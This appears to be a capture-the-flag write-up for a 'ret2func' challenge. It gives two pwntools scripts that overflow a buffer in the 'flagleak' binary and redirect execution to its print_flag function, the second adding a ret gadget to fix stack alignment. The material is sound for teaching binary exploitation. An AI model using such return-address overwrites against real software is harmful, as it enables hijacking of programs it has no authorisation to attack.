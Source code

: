 ## ret2func
The following script makes the program jump to _print\_flag_ function.
```py
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('chall.aresx.team', 1004)
	else:
		p = elf.process()

context.binary = elf = ELF('./flagleak')
libc = elf.libc
start()

### Exploit Goes Here ###
offset = 0x68

p.recvline()

payload = b'A'*offset
payload += p64(elf.sym.print_flag)

p.send(payload)

p.interactive()
p.close()
```
If you get a SEGFAULT by running it then you are facing a 16-byte alignment issue. 64 bit architecture requires RSP to be 16-byte aligned whenever a function is called. To circumvent it, just add a return instruction before the jump.
```py
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./flagleak')
libc = elf.libc
start()

### Exploit Goes Here ###
offset = 0x68

r = ROP(elf)
ret = r.find_gadget(['ret'])[0]

p.recvline()

payload = b'A'*offset
payload += p64(ret) 
payload += p64(elf.sym.print_flag)

p.send(payload)

p.interactive()
p.close()
```
